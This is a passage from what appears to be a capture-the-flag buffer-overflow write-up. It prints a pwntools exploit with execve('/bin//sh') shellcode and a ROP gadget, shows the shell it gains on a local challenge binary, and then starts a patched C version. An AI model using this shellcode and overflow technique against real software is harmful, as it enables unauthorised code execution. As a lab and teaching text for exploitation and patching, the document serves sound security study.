```
shellcode = "\x6a\x18\x58\xcd\x80\x50\x50\x5b\x59\x6a\x46\x58\xcd\x80\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x99\x31\xc9\xb0\x0b\xcd\x80"

#Declare the ROP Gadget
gadget = p32(0x08048443)

#Construct the payload
payload = shellcode + offset + gadget

#Let's write the payload to a file, for gdb troubleshooting
p = open("in", "w")
p.write(payload)

#Send the payload
target.sendline(payload)

#Drop to an interactive shell
target.interactive()
```

Now let's try it...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b7$ python exploit.py 
[+] Starting local process './b7': Done
If you do not get back to your research now, we will have to implement corrective solutions.

[*] Switching to interactive mode
When you get done with hacking, your research is at 0x8048443. Just incase you feel like doing work.
$ echo Is it working?
Is it working?
$ ls
b7  b7.c  core    exploit.py  in    out  peda-session-b7.txt  peda-session-dash.txt
$ cat out
If you don't stop, we will start implementing actual security. With guns, and sharks. You hate those, don't you? Level Cleared!
$ exit
[*] Got EOF while reading in interactive
$ exit
[*] Process './b7' stopped with exit code 0
[*] Got EOF while sending in interactive
```

Just like that, we pwned the binary. Now let's patch it.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b7$ cat b7_secure.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void pls_stop()
{
	unsigned int ret_adr;
	char buf0[50];
	fgets(buf0, sizeof(buf0), stdin);
	ret_adr = __builtin_return_address(0);

	if ((ret_adr & 0xf0000000) == 0xf0000000)
	{
		printf("Due to the lack of research, we had to make budget cuts.\n");
		exit(0);
	}
```